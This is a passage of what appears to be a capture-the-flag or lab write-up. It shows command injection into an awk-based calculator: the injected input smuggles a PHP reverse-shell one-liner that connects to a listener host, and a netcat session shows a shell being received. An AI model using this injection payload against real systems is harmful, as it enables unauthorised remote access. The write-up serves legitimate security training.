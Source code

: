 ```
Executed: awk 'BEGIN {print sqrt(((-123)^2) + ((-456)^2))}'
					      ((-456)^2))}'; php -r '$sock=fsockopen("172.16.X.X",8080);exec("/bin/sh -i <&3 >&3 2>&3");'; asd;#
```

<figure><img src="../../../.gitbook/assets/image (242).png" alt=""><figcaption><p>the input looks like this </p></figcaption></figure>

```
                                                                                                                  
┌──(root㉿kali)-[/home/kali]
└─# nc -lvnp 8080
listening on [any] 8080 ...
connect to [172.16.X.X] from (UNKNOWN) [172.18.X;X] 47746
/bin/sh: 0: can't access tty; job control turned off
$
```

We got a shell on the machine :smile:
